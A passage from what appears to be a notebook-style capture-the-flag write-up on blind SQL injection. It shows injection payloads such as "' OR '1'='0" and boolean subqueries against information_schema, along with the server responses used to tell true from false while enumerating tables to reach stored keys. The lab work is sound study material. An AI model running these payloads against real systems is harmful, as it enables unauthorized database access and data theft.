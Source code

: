 

    (True, 'Feed with same title already exists!', <Response [500]>)




```python
# This SQL injection is falsy and will return 0 rows, we should get a no new feeds allowed error
query_challenge("' OR '1'='0")
```




    (False, "Failed to add ' OR '1'='0; no new feeds allowed!", <Response [200]>)



Nice, we now have an easier way to query the server! Let's start to leak data.

## Blind SQL Schema Enumeration

Considering that the web page earlier had different pages for "Feeds" and "Keys", it's safe to assume that the data is stored in different tables. We can't just keep stacking `WHERE` statements inside the injection because that will only look at data related to "Feeds". Instead we need to begin querying against the table containing "Keys". Before we can do that, we need to find exactly what are the schema and table names used to store the respective data. One way to do this is through [introspection of `information_schema`](https://www.sqlinjection.net/table-names/). 

We can nest a subquery inside the SQLi from earlier. Depending on how many rows the subquery returned, we can return a truthy or falsy response. Using this, we can check if rows exist in the tables of `information_schema` specific names.


```python
# Check if there are any columns at all, should return true
query_challenge(
    "' OR (SELECT COUNT(*) FROM information_schema.columns) != 0 AND '1'='1"
)
```




    (True, 'Feed with same title already exists!', <Response [500]>)




```python
# Check if there is a table name called 'baba', should return false
query_challenge(
    "' OR (SELECT COUNT(*) FROM information_schema.columns WHERE table_name LIKE 'baba') != 0 AND '1'='1"
)
```




    (False,
     "Failed to add ' OR (SELECT COUNT(*) FROM information_schema.columns WHERE table_name LIKE 'baba') != 0 AND '1'='1; no new feeds allowed!",
     <Response [200]>)

